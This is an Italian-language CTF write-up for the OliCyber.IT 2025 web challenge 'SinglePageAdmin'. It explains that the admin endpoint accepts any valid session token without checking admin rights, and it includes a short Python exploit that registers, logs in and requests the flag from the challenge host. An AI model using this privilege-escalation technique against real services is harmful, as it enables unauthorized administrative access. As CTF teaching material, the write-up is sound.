



```markdown
# SinglePageAdmin
**CTF:** OliCyber.IT Competizione Nazionale 2025  
**Categoria:** Web  

## 📝 Contesto
Il sito è strutturato su una singola pagina (lol) dove è possibile registrarsi o fare il login.
La registrazione viene effettuata inserendo un username a cui il sito assegnerà una password generata casualmente, attraverso la quale sarà poi possibile effettuare il login.
Una volta loggati, viene mostrata una semplice pagina di welcome.

## 🔍 Soluzione
Analizzando le richieste HTTP per la registrazione e il login, notiamo che nella risposta del server ci viene restituito un token di sessione.

Osservando il codice sorgente, scopriamo che per ottenere la flag è necessario effettuare una richiesta valida all'endpoint `/api/admin`.



La vulnerabilità risiede proprio nella gestione dell'autenticazione per l'area admin.



Come si legge in queste righe di codice, la verifica viene effettuata leggendo l'header `Authorization`. Tuttavia, il server si limita a splittare la stringa e controllare se il token fornito è presente nel database, senza verificare se l'utente è effettivamente un admin.

Per bypassare il controllo e ottenere la flag, ci basta quindi effettuare una richiesta autenticata usando un normalissimo token ottenuto tramite il login.



## 💻 Exploit Python

```python
import requests
import random 
import string 

url = "https://single-page-admin.challs.olicyber.it"
# Generiamo un username random di 6 caratteri
username = "".join(random.choice(string.ascii_letters) for _ in range(6))

# 1. Registrazione
resp = requests.post(url + '/api/register', json={
    "username": username
})

# 2. Login
resp = requests.post(url + "/api/login", json={
    "username": username,
    "password": resp.json()['password']
})

# 3. Richiesta all'admin endpoint bypassando l'autorizzazione
flag = requests.post(url + "/api/admin", headers={
    "Authorization": "Bearer " + resp.json()['token']
})

print("[+] Flag trovata: " + flag.json()['message'])
